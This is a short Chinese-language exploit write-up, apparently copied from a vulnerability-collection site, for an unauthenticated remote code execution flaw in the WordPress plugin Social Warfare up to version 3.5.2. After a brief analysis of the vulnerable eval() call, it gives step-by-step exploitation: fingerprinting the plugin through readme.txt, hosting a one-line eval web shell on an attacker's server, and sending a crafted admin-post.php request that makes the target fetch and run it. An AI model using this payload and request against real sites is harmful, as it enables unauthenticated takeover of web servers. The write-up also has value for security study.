


# WordPress Plugin - Social Warfare<=3.5.2 RCE

> 原文：[http://book.iwonder.run/0day/Wordpress/26.html](http://book.iwonder.run/0day/Wordpress/26.html)

## 一、漏洞简介

2019 年 3 月 21 日插件作者紧急发布了 3.5.3 版本以修复高危的 RCE 漏洞，在<=3.5.2 版本中存在一处无需登录即可 getshell 的 RCE 漏洞。

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP_Database_Migration.php 文件中有一处 eval()函数，该函数将 file_get_contents()读取的文件内容当做 PHP 代码执行导致 RCE。



### 漏洞利用

第一步：刺探是否安装了 Social Warfare 插件

访问

```
http://0-sec.org/wp-content/plugins/social-warfare/readme.txt 
```

如果存在 readme.txt 文件则说明已经安装该插件，并且从该 txt 文件中可获知插件的版本。

我的本机环境为 3.5.2 版本。


第二步：在自己的 VPS 服务器上放置一个 code.txt 文件，并启动 HTTP 服务使该文件可通过 HTTP 访问。文件内容如下：

```
<pre>eval($_REQUEST['wpaa'])</pre> 
```

第三步：在未登陆任何账号的情况下直接访问如下链接即可 getshell。

```
http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo(); 
```



